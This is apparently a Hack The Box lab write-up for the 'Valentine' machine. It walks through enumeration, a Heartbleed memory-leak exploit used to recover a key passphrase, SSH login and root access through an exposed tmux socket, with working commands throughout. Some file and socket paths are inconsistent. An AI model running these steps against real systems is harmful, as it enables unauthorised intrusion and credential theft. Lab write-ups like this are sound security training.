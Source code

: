 # Valentine - Linux, easy (10.10.10.79)

### Enumeration
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2022-08-21T21:13:35+00:00; 0s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
gobuster dir -u http://valentine.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
/index                (Status: 200) [Size: 38]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.79/dev/]
/decode               (Status: 200) [Size: 552]                              
/encode               (Status: 200) [Size: 554]                              
/omg                  (Status: 200) [Size: 153356]
```

In `https://valentine.htb/dev/` we can find two files, **hype_key** and **notes.txt**.
File hype_key is a bunch of hexadecimal bytes, while notes.txt contains the following notes:
```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

If we decode the bytes in hype_key we obtain an RSA certificate!
```
wget http://valentine.htb/dev/hype_key
cat hype_key | xxd -r -p > hype_key_enc
```
But if we try to decrypt it with `openssl` it will ask for a passphrase that we do not have:
```
root@kali:~/hackthebox/valentine-10.10.10.79# openssl rsa -in hype_key_enc -out hype_key_dec
Enter pass phrase for hype_key_encrypted:
```

### Heartbleed
As the image in the website and the machine name suggest, this challenge may be based on the heartbleed attack.
Searching for this attack with `searchsploit`, we can find the following script `multiple/remote/32745.py`.
Copy it and execute it.
After executing this script for some times, we should see some data:
```
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 53  mV0aGVoeXBlCg==S
```

If we save these bytes in a file and run `xxd -r saved_bytes` we should see:
```
ntent-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

And then,
```
kali@kali:~/HackTheBox/retired/Linux/easy/Valentine$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype
```

This should can be a password!

### Clever method to get the password
Run the script for a while:
```
for i in $(seq 1 10000); do ./32745.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > data_dump/dump$i; done
```

Then using `fdupes` remove the duplicate files:
```
fdupes -rf . | grep -v '^$' > files
xargs -a files rm -v
```
`fdupes -rf` finds recursively (-r) files in the current directory and omits the first file in each set of matches (-f).
With `grep -v '^$'` we ignore all the blank lines that are created between each set of files and the result is inserted in a file.
Then we remove all the files in the current directory that are in `files`.
In this way, for each set of files that are the same, in the directory we will keep only one copy of them.

Now simply open some of the files untils you see the string `decode` and the base64 string that represents the password.

### Obtain user Hype
Now that we have a password, we can try `openssl` to decrypt the key, execute `openssl rsa -in hype_key_enc -out hype_key_dec`.
Insert the passphrase previously obtained to get the private key!

Now simply `ssh -i hype_key_dec hype@10.10.10.79` to get a shell.

Note that if you receive the following error when running this command and then the password for user hype is requested:
```
sign_and_send_pubkey: no mutual signature supported
hype@10.10.10.79's password: 
```
Run the following command to connect `ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i hype_dec hype@10.10.10.79`.

### From Hype to Root
Running `ps aux` reveals a `tmux` session being run as the user root:
```
root       1028  0.0  0.1  26416  1668 ?        Ss   14:12   0:01 /usr/bin/tmux -S /.devs/dev_sess
```

By simply exeuting `/usr/bin/tmux -S /.dev/dev_sess` we will connect to the session with full root privileges!
